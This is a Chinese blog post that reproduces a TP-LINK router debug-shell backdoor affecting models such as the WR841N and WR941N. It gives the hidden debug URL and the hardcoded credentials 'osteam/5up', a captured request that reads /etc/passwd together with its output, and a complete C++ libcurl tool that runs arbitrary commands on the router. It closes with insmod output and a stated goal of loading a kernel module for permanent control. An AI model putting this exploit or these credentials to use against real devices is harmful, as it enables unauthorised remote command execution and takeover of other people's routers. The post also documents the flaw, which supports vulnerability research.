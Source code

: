 ```yaml
---
layout: post
title:  "TP-LINK Shell调试后门浅析"
date:   2017-12-06
categories: 漏洞复现
permalink: /archivers/2017-12-06/1
description: "本篇文章介绍一个TP-LINK低版本的一个Shell调试后门"
---
```

本篇文章介绍一个TP-LINK低版本的一个调试后门
<!--more-->

* 目录
{:toc}

## 0x00 前言

TPLINK 存在一个 Shell 调试后门，TPLINK WR941N V2_090803 路由器 后门，TP-link路由器后门漏洞。

影响版本：

WR740N, WR740ND, WR743ND, WR842ND, WA-901ND, WR941N, WR941ND, WR1043ND, WR2543ND, MR3220, MR3020, WR841N

## 0x01 分析

该后门的地址在：`/userRpmNatDebugRpm26525557/linux_cmdline.html`

在公司刚好有一台，它的版本是：`TL-WR841N`。


![0x00](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x00.png)


参考网上文章获得了用户名和密码：`osteam/5up`

![0x01](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x01.png)

那么它是怎么执行命令的呢？会不会存在越权情况？PS:后来发现它必须要登录路由器才可以访问到这个Shell接口


通过抓包发现，它会将命令发送到另外一个页面：


![0x02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x02.png)


并且命令结果都在JS代码块中。

```
GET /userRpm/DebugResultRpm.htm?cmd=cat%20/etc/passwd&usr=osteam&passwd=5up HTTP/1.1
Host: 192.168.3.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.3.1/userRpmNatDebugRpm26525557/linux_cmdline.html
Authorization: Basic YWRtaW46YWRtaW4=
X-Forwarded-For: 8.8.8.8
Connection: keep-alive
Upgrade-Insecure-Requests: 1

----------------------------------


HTTP/1.1 200 OK
Server: TP-LINK Router
Connection: close
Content-Type: text/html
WWW-Authenticate: Basic realm="TP-LINK Wireless N Router WR841N"

<SCRIPT language="javascript" type="text/javascript">
var cmdResult = new Array(
"cat /etc/passwd&\r\n811\r\n# root:x:0:0:root:/root:/bin/sh\r\nAdmin:x:0:0:root:/root:/bin/sh\r\nbin:x:1:1:bin:/bin:/bin/sh\r\ndaemon:x:2:2:daemon:/usr/sbin:/bin/sh\r\nadm:x:3:4:adm:/adm:/bin/sh\r\nlp:x:4:7:lp:/var/spool/lpd:/bin/sh\r\nsync:x:5:0:sync:/bin:/bin/sync\r\nshutdown:x:6:11:shutdown:/sbin:/sbin/shutdown\r\nhalt:x:7:0:halt:/sbin:/sbin/halt\r\nuucp:x:10:14:uucp:/var/spool/uucp:/bin/sh\r\noperator:x:11:0:Operator:/var:/bin/sh\r\nnobody:x:65534:65534:nobody:/home:/bin/sh\r\nap71:x:500:0:Linux User,,,:/root:/bin/sh\r\n\r\n",
0,0 );
</SCRIPT>
<META http-equiv=Content-Type content="text/html; charset=gb2312">
<HTML>
<HEAD><TITLE>TL-WR841N</TITLE>
<META http-equiv=Pragma content=no-cache>
<META http-equiv=Expires content="wed, 26 Feb 1997 08:21:57 GMT">
<LINK href="/dynaform/css_main.css" rel=stylesheet type="text/css">
<SCRIPT language="javascript" src="/dynaform/common.js" type="text/javascript"></SCRIPT>
<SCRIPT language="javascript" type="text/javascript"><!--
//--></SCRIPT>
<script language="Javascript">
function doGetResult()
{
	location.href="/userRpm/DebugResultRpm.htm";
}
</script>
</head>
<body>
</body>
</html>
<script language="JavaScript">
	var	timeInterVal = 2000;
	obj = parent.document.getElementById("result");
	var temp = obj.scrollTop;
	obj.value += cmdResult[0];
	obj.scrollTop = temp;
	if(parent.bIsonFocus == 0)
		obj.scrollTop = obj.scrollHeight;
	setTimeout("doGetResult()",timeInterVal);
</script>
```

其中：`Authorization: Basic YWRtaW46YWRtaW4=`就是路由器的权限认证方式了，并且调试接口的用户名密码是以GET方式传输的


## 0x02 动起手来

我使用C++写了一个测试的程序，主要是还原它发送的数据。

```cpp
#include <iostream>
#include <curl/curl.h>
#include <regex>
#include <string>
#define TIMEOUT 5

std::string m_replace(std::string strSrc,const std::string &oldStr, const std::string &newStr,int count=-1)
{
    std::string strRet=strSrc;
    size_t pos = 0;
    int l_count=0;
    if(-1 == count)
        count = strRet.size();
    while ((pos = strRet.find(oldStr, pos)) != std::string::npos)
    {
        strRet.replace(pos, oldStr.size(), newStr);
        if(++l_count >= count) break;
        pos += newStr.size();
    }
    return strRet;
}

size_t WriteData(void *pData, size_t size, size_t nmemb, void *stream)
{
    std::string *pStr = (std::string *)stream;

    size_t len  = size * nmemb;
    pStr->append((const char *)pData, len);

    return len;

}

int main(int argc,char * argv[]) {
    if(argc < 5){
        std::cout << "Usage: " << argv[0] << " <HOST> <Username> <Password> <Command>"<<std::endl;
        std::cout << "Version: WR740N, WR740ND, WR743ND, WR842ND, WA-901ND, WR941N, WR941ND, WR1043ND, WR2543ND, MR3220, MR3020, WR841N"<<std::endl;
        exit(EXIT_SUCCESS);
    }

    std::string host = argv[1];
    std::string username = argv[2];
    std::string password = argv[3];
    std::string command = argv[4];
    std::string body;
    std::string commands = curl_escape(command.data(),command.size());
    host="http://"+host+"/userRpm/DebugResultRpm.htm?cmd="+commands+"&usr=osteam&passwd=5up";

    CURL * curl = curl_easy_init();
    curl_easy_setopt(curl,CURLOPT_URL,host.c_str());
    curl_easy_setopt(curl,CURLOPT_TIMEOUT,TIMEOUT);
    curl_easy_setopt(curl,CURLOPT_USERNAME,username.c_str());
    curl_easy_setopt(curl,CURLOPT_PASSWORD,password.c_str());
    curl_easy_setopt(curl,CURLOPT_WRITEFUNCTION,WriteData);
    curl_easy_setopt(curl,CURLOPT_WRITEDATA,body);
    CURLcode res = curl_easy_perform(curl);
    if(res !=0){
        std::cout << "ERROR" << std::endl;
        curl_easy_cleanup(curl);
        exit(EXIT_SUCCESS);
    }
    int status = 0;
    curl_easy_getinfo(curl,CURLINFO_RESPONSE_CODE,&status);
    if(status != 200 || status == 401){
        std::cout << "ERROR Incorrect username or password." << std::endl;
        exit(EXIT_SUCCESS);
    }
    //std::cout << body << std::endl;
    std::regex match_command_result("\\(\\n.*\\n0,0 \\)");
    std::smatch mth;
    std::regex_search(body,mth,match_command_result);
    std::cout << m_replace(mth.str(),"\\r\\n","\n") << std::endl;
    curl_easy_cleanup(curl);
    return 0;
}

```

编译：`g++ main.cpp -lcurl -o tplinkShell`

使用过程：

![0x03](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x03.png)

:-) 正则写的不好，莫见怪

## 0x03 测试写入文件 - 编写内核模块

![0x04](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x04.png)

发现Web目录是不可写、不可读的。

参考：`https://www.cnblogs.com/amaoxiaozhu/archive/2013/03/08/2950002.html`

可以进行编写mod，使内核加载

![0x05](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x05.png)


传送门：https://www.cnblogs.com/skyred99/p/5683710.html


这块先放着，后面如过理解了再尝试导入内核模块，永久控制路由器

```bash
payloads@koone:~$ ./tplinkShell 192.168.3.1 admin admin "/sbin/insmod"
(
"/sbin/insmod
BusyBox v1.01 (2009.01.06-01:38+0000) multi-call binary

Usage: insmod [OPTION]... MODULE [symbol=value]...

Loads the specified kernel modules into the kernel.

Options:
	-f	Force module to load into the wrong kernel version.
	-k	Make module autoclean-able.
	-v	verbose output
	-q	quiet output
	-L	Lock to prevent simultaneous loads of a module
	-o NAME	Set internal module name to NAME
	-x	do not export externs
```

insmod用于加载模块